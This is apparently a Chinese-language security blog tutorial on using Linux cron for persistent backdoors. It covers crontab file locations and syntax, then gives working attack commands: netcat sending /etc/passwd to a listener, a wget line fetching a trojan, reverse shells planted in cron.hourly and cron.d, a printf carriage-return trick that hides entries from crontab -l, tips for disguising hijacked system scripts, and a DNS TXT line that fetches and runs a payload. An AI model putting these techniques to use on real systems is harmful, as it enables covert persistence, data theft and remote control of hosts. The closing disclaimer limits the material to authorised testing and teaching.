## 前言

计划任务不只我们喜欢用，系统自身也有大量依赖 cron 的操作。理解 cron 的文件布局和解析规则后，才能把计划任务用成稳定的后门。

常见的两个位置是：

- `/etc/crontab`
- `/etc/cron.d/`



`/etc/crontab` 看起来和 `crontab -e` 很像，但语法上多了一个 user 字段，所以可以确定 `crontab -e` 修改的不是这个文件。

- `SHELL=/bin/sh`：指定使用的 Shell；
- `PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`：设置环境变量 PATH。

```bash
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

上面这些是系统要执行的任务。cron 会定期扫描 `/etc/cron.daily`、`/etc/cron.weekly`、`/etc/cron.monthly`，执行其中的可执行文件。



这些可执行文件其实都是 Shell 脚本，这也是后面可以动手脚的地方。

再看 `/etc/cron.d/`：





以 `/etc/cron.d/popularity-contest` 为例，它的作用是统计最流行的安装包。参考文档：

```text
https://manpages.debian.org/testing/popularity-contest/popularity-contest.8.en.html
```

## crontab -e 的文件位置

一直没找到 `crontab -e` 编辑的文件在哪，其实它在：

```text
/var/spool/cron/crontabs/
```



这个文件权限比较高，默认不允许查看。它就是 `crontab -e` 编辑的文件，这也印证了之前的判断。

看一下具体权限：



这个文件比较特殊，没有属组和属主。文件第一行写着 "不要编辑这个文件"，那就试着直接修改计划任务：把 `/etc/passwd` 改成 `/etc/issue`，再监听端口。





成功收到 `/etc/issue` 的内容。注意不要写错，否则容易把 cron 服务搞崩。

## cron 服务与 crontab 命令

先找一下 cron 的位置：



既然是一项服务，启动、停止、查看状态的命令都很常规：



**Ubuntu 16.04 中 cron 服务默认开机自启**，通过 `crontab` 命令管理计划任务。



常用参数：



- `crontab -u user`：指定某个用户的计划任务（可以用高权限给低权限用户设置任务，降低被发现概率）；
- `crontab -l`：列出当前用户的计划任务；
- `crontab -r`：删除当前用户的所有计划任务；
- `crontab -i`：删除时给出确认提示；
- `crontab -e`：编辑当前用户的计划任务。



`crontab -l` 输出看起来像一个文件，因为有注释和空行。Linux 上万物皆文件，它确实是文件。

创建一个计划任务试试：



Ubuntu 16.04 默认使用 nano 编辑计划任务。这条任务的含义是每分钟执行一次 `nc 192.168.1.38 5555 < /etc/passwd`。

攻击机监听 5555 端口：



成功收到目标主机传来的文件。继续监听，过一会儿又会收到新的内容：



## 配置文件





对照鸟哥的教程会发现，Ubuntu 上少了两个文件：

- `/etc/cron.deny`
- `/etc/cron.allow`

这两个文件在 Ubuntu 16.04 中默认不存在：



它们的作用是控制哪些用户可以使用 cron。

`/etc/cron.deny` 用来禁止用户使用 cron。创建该文件，并把当前用户 helper 加入禁止列表：



再执行 `crontab -l`：



可以看到 helper 已经被禁止使用 cron。

`/etc/cron.allow` 则相反，用来允许用户使用 cron。在 `cron.deny` 禁止 helper 的情况下，同时配置 `cron.allow` 允许 helper，结果会怎样？



同时配置时，`cron.allow` 优先级更高，helper 仍然可以使用 cron 服务。

## cron 语法



`crontab -e` 的文件中已经写明了格式：

```text
m h dom mon dow command
分 时 日期 月份 周 命令
```

| 代表意义 | 分钟 | 小时 | 日期 | 月份 | 周 | 命令 |
| --- | --- | --- | --- | --- | --- | --- |
| 数字范围 | 0-59 | 0-23 | 1-31 | 1-12 | 0-7 | 要执行的命令 |

周字段的 0 和 7 都表示周日；周不能与日期、月份同时并存。

特殊字符主要有 `*`、`,`、`-`、`/n`：

| 特殊字符 | 代表意义 |
| --- | --- |
| `*` | 该单位上的任意时刻 |
| `,` | 多个时间点，例如 `7,8` 表示 7 点和 8 点都执行 |
| `-` | 一个时间段，例如 `7-8` 表示 7 点到 8 点之间 |
| `/n` | 每隔 n 个单位，例如 `*/5 * * * * cmd` 表示每 5 分钟执行一次 |

`/etc/crontab` 用来设置系统日常任务，所以多了一个 user 字段，满足多用户权限管控的需求。

## 简单练习

每天凌晨 3 点半清理 `/home/xxxx/test` 文件夹：

```bash
30 3 * * * rm -r /home/xxxx/test/*
```

每隔 10 分钟下载一次木马：

```bash
*/10 * * * * wget http://www.test.com/muma.exe
```

## 后门利用

Ubuntu 16.04 默认不会把 cron 日志写到 `/var/log/cron`，也没有这个文件。默认写入 `/var/log/syslog`，可以用 `tail -f /var/log/syslog` 查看。

### 计划任务持续反弹 shell

攻击机监听：


在受害机上设置计划任务：



成功获取 shell：



### 计划任务持续执行脚本

攻击机监听：


受害机创建可执行文件并设置计划任务：





成功获取 shell：



> 这里拿到的是 root 权限，因为计划任务是用 root 设置的。

### 放进 cron 默认扫描目录

把反弹 shell 文件放到 `/etc/cron.hourly/`：



攻击机监听：


等待系统每小时执行一次：



成功反弹 shell。这种方式的优点是**不会出现在 `crontab -l` 中**。

如果不想等一个小时，可以直接执行：

```bash
sudo run-parts -v --report /etc/cron.hourly
```

`/etc/crontab` 中本来就有 `cd / && run-parts --report /etc/cron.hourly`，作用就是执行该目录下所有可执行文件。`-v` 用来显示详细信息。



### 放进 /etc/cron.d/



攻击机监听：


成功获取 shell：



## 巧用计划任务隐藏后门

```bash
(crontab -l;printf "*/1 * * * * /home/helper/1.sh;\rno crontab for `whoami`%100c\n")|crontab -
```



等待 1 分钟左右，成功收到 shell：



这个技巧利用了 Windows 中的 `\r`（Linux 中显示为 `^M`）让显示截断，从而隐藏真实的计划任务。使用 `crontab -e` 可以看到完整内容：



### %100c 是什么

把前面的 printf 单独执行，对比加与不加 `%100c` 的差异：

```bash
printf "*/1 * * * * /home/helper/1.sh;\rno crontab for `whoami`%100c\n"
printf "*/1 * * * * /home/helper/1.sh;\rno crontab for `whoami`\n"
```



不加 `%100c` 时，`no crontab for helper` 后面会多出 `per/1.sh;` 几个字符。

分别写入计划任务：

加 `%100c`：





不加 `%100c`：



用 `crontab -e` 查看：



不加 `%100c` 时少了 `@`。`@` 在这里可以理解为占位符，参考：

```text
https://blog.csdn.net/huiwuhuiwu/article/details/72850821
```

两者执行效果一样，但我们的目的是隐藏。`%100c` 的含义是格式化输出一个字符，并用前面 99 个空格补齐，用空格把 `per/1.sh;` 覆盖掉。

试试用空格代替 `%100c`：



一个空格只能覆盖掉 `p`。加到 9 个空格：



`%9c` 还不够，需要 `%10c`：



### 为什么会出现一半字符

用 `* * * * * ls` 这类短命令测试时，根本不会出现字符被截断的情况：





所以这种隐藏方式并不是万能的，它只能遮盖 `\r` 后面长度的字符。加上 `%100c` 基本可以覆盖掉所有内容。

网上有些文章说 cat 一定看不到真实任务，这个结论并不完全准确：

```text
https://github.com/d3npa/writeups/blob/master/unix/hiding-from-cats.md
```



实际效果还要考虑 `\r` 前后内容的长度关系。

## 劫持系统默认计划任务

### 修改 /etc/cron.d/

以 `/etc/cron.d/popularity-contest` 为例：



成功收到 shell：



这种方式太明显，可以简单伪装一下：

- 脚本命名为 `.disfavor-contest`，不要用 `1.sh` 这种名字；
- 脚本放在和被修改脚本相同的位置；
- 不新建计划任务，直接在原任务后面修改（要谨慎，视具体情况而定）。



为了测试方便，把频率改成一分钟一次：


### 修改 cron.daily 调用的脚本

以 `/etc/cron.daily/` 下的文件为例：


找一个代码行数最多的脚本进行篡改：


还是 `popularity-contest` 代码最多。随便截取一行：


可以在这里加一行恶意代码，也可以把 IP 拆开、转换成 ASCII 后用变量拼接。或者继续向下劫持它调用的 `/usr/sbin/popularity-contest`：


这个文件有 178 行，更容易隐藏恶意代码。如果里面还调用了其他文件，可以继续向下劫持。

### 使用 DNS TXT 记录

尽量不用固定 IP，改用域名解析记录。例如通过 TXT 记录下发要执行的 payload：

```bash
0 1 * * * /bin/sh -c "sh -c $(dig logging.chat TXT +short @pola.ns.cloudflare.com)"
```

在 TXT 记录中设置要执行的内容：


## 总结

cron 的利用点主要集中在三类位置：用户自己的 crontab、`/etc/cron.d/` 等系统配置目录、以及系统计划任务调用的脚本。隐藏手法本质上都是利用解析差异和显示截断，理解原理后才能根据环境选择合适的方式。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
